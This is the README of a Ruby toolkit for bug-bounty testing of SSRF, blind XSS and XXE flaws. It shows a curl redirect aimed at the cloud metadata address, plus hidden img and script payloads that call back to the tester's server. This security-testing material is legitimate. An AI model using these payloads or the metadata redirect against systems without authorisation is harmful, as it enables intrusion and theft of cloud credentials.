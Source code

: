 # Ground control
This is a collection of most of my scripts that I use to debug Server Side Request Forgery (SSRF), blind XSS, and insecure XXE processing vulnerabilities. This is still a work in progress, as I'm still collecting all the scripts that I have lingering around. Before using these scripts, I used to rewrite these scripts most of the time or set up listeners with `netcat`. That wasn't scalable, so I started collecting the scripts in a repository, which can be closed easily every time it's needed it on a server.

## Requirements
Running this script requires Ruby 2.3, a valid SSL certificate for a domain you own, and a web server that allows to open port `80`, `443`, `8080`, and `8443`. The use of each port will be explained in this document.

## Setting up
Clone this repository and install the required components by running `install.sh`. After that, run `start.sh` to start to listen on all ports.

## Functions

### Redirects
The `/redirect` endpoint is used to redirect a request to another server or endpoint. This may assist you when you need an external server to redirect back to an internal system. See below for examples.

```
curl -vv "http://server/redirect?url=http://169.254.169.254/latest/meta-data/"
```

### Ping Pong
Sometimes, you simply need a page that responds with a certain body and headers. The `/ping_pong` endpoint does exactly that. Here's a few examples.

```
curl -vv "http://server/ping_pong?body=%3ch1%3eHello%3c/h1%3e"
```

### Blind callbacks
To figure out of an inaccessible system is executing your HTML or XSS payload, add an item the `callback_tokens` in `config.json`. The structure is shown below. This callback contains information where you injected your payload. This will help you identify the root cause of the vulnerability if you receive a callback. Every unique combination of parameter, host, port, path, and method is supposed to have its own `callback_token`.

```
{
  "callback_tokens": {
    "ee34a1791ab345f789": {
      "host": "hackerone.com",
      "port": 443,
      "ssl": true,
      "path": "/webhooks",
      "parameter": "url",
      "method": "POST"
    }
  }
}
```

Depending on what type of vulnerability you want to test for, you have to construct a payload. See below for an example for HTML injections and XSS vulnerabilities. Then, submit the payload to the injection point. You'll see a log entry in `logs/access_log` when a request with that `callback_token` was triggered. Most of the time, I use `tail -f logs/access_log` to see if something triggered.

**HTML injection**
```
<img src="https://server/pixel?callback_token=ee34a1791ab345f789" style="display:none;"/>
```

**Blind XSS**
```
<script src="https://server/collect?callback_token=ee34a1791ab345f789"></script>
```

### Starting another server
The server listens on port `80`, `443`, `8080`, and `8443` by default. However, if you want to start another server on a different port, run `ruby app/server.rb -p :port`. To use SSL, append `-cert :cert.pem`. This is especially useful when a potential SSRF vulnerability only allows to connect on certain ports. Say bye to all the Apache and nginx configuration hacking!
